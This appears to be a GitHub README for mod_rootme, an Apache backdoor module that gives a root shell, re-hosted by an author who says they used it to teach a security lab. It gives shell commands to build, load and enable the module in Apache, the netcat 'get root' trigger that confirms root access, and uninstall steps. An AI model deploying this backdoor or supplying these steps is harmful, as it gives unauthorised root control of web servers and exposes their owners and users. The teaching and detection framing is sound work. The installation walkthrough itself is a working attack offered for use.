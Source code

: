 # mod_rootme

mod_rootme is a Apache backdoor module that can spawn a root shell.

I used this module while teaching a software security lab.  The module
has been around for a while, but
[the blog](http://blog.danfego.net/2009/10/update-to-mod_rootme/)
that hosted the most recent version seems to have disappeared from the
web.  Malware detection programs such as 'rkhunter' and 'unhide' can
trivially detect the presence of mod_root, so it should not be too
harmful to have this code in circulation again.

This repository is imported from an old archive I happened to find
from my old class files (mod_rootme-0.4.tar.gz), updated to build on
Debian GNU/Linux 8.0.

See README.old.txt for the original documentation.

## Build instructions

To build and test on a Debian/Ubuntu system, you would need apache2
and apache2-dev.  Run 'make' and 'sudo make install' to build the
module, and enable it in httpd configuration, perhaps like so:

```
sudo sh -c \
'echo "LoadModule rootme_module \
/usr/lib/apache2/modules/mod_rootme.so" | sudo tee > \
/etc/apache2/mods-available/rootme.load'
```

Now to enable the module:

```
sudo a2enmod rootme
sudo service apache2 restart
```

To check that the root shell is indeed available:

```
nc localhost 80
get root
id
```

To uninstall the module:

```
sudo a2dismod rootme
rm /usr/lib/apache2/modules/mod_rootme.so
sudo service apache2 restart
```
